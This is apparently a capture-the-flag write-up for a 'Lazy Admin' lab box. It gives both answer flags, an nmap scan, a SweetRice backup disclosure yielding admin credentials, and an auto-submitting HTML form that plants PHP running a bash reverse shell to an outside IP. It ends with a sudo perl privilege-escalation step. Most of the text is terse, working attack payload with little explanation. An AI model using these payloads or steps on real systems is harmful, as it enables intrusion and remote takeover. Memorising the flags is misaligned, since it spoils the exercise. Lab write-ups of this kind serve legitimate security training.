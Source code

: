 # Lazy Admin
##### Question 1:User Flag
Answer
```bash
THM{63e5bce9271952aad1113b6f1ac28a07}
```

##### Question 1:Root Flag
Answer
```bash
THM{6637f41d0177b6f37cb20d775124699f}
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

Nmap Scans:
```bash

Nmap scan report for 10.10.232.168
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works


```

backup via backup disclosure vuln /content/inc/mysql_backup

SweetRice Login
http://host/content/as/

login: manager:Password123

shell
```bash
create new ad with name test with content:

<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.232.168/content/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.32.32/1234 0>&1'");?>


```

```bash

privesc - sudo 

echo "bash revshell" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl


```